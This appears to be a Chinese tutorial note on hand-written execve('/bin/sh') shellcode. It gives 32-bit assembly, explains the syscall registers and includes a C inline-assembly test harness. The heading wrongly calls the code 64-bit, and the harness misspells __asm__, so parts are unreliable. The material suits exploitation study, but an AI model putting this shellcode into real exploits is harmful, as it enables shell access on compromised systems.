 手写64位下的shellcode代码

```assembly
xor %eax,%eax
pushl %eax
push $0x68732f2f
push $0x6e69622f
movl %esp,%ebx
pushl %eax
pushl %ebx
movl %esp,%ecx
cltd
movb $0xb,%al
int $0x80
```

> 此处eax为0，因此cltd相当于将edx也设为0

以上代码实现的效果就是

```c
execve("/bin/sh",null,null)
```

Syscall 调用约定

- syscall number: %eax=0xb
- 第一个参数：%ebx=filename
- 第二个参数：%ecx=argv
- 第三个参数：%edx=envp=0
- 第四个参数：%esi
- 第五个参数：%edi
- 第六个参数：%ebp

### 测试

用内联（inline）汇编测试编写的shellcode，也可以使用汇编器as直接编译汇编代码

```c
void shellcode()
{
    _asm_(
    "xor %eax,%eax\n\t"
    "pushl %eax\n\t"
    "push $0x68732f2f\n\t"
    "push $0x6e69622f\n\t"
    "movl %esp,%ebx\n\t"
    "pushl %eax\n\t"
    "pushl %ebx\n\t"
    "movl %esp,%ecx\n\t"  
    "cltd\n\t"
    "movb $0xb,%al\n\t"
    "int $0x80\n\t"      
    )
}
int main(int argc,char **argv)
{
    shellcode();
    return 0;
}
```
